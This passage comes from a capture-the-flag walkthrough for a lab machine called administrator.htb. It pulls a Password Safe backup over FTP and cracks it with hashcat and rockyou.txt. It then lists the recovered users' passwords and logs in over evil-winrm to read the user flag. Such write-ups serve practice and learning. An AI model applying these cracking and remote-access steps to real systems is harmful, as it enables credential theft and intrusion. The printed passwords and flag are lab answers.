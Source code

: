 ```bash
ftp> get Backup.psafe3
```

* The file was transferred successfully.

---

### 4 - Cracking the Backup File

The downloaded `Backup.psafe3` file is a password safe backup. We used `hashcat` to crack the encrypted passwords inside it.

```bash
hashcat -m 5200 Backup.psafe3 rockyou.txt
```

* The hash mode `5200` corresponds to Password Safe v3.
* We used the popular `rockyou.txt` wordlist for cracking.

The cracking session was successful and yielded the following credentials:

```
Backup.psafe3:tekieromucho
Session..........: hashcat
Status...........: Cracked
```
```sh
$ pwsafe Backup.psafe3 
 
username::passwd
alexander::UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
emily::UXLCI5iETUsIBoFVTj8yQFKoHjXmb
emma::WwANQWnmJnGV07WQN8bMS7FMAbjNur
```

> We obtained plaintext passwords for multiple users, including `emily`.

---

### Retrieving the user.txt Flag

Using the cracked password for user `emily`, we accessed the target system via Evil-WinRM, a remote PowerShell shell:

```bash
evil-winrm -i administrator.htb -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```

> After connecting, we navigated to `emily`'s Documents folder.
> We located and displayed the contents of the user flag file:

```sh
cat ../desktop/user.txt
fb61f6a4caada6fb8ec90ba2c2618514
```

* The flag was successfully retrieved, confirming initial user access.

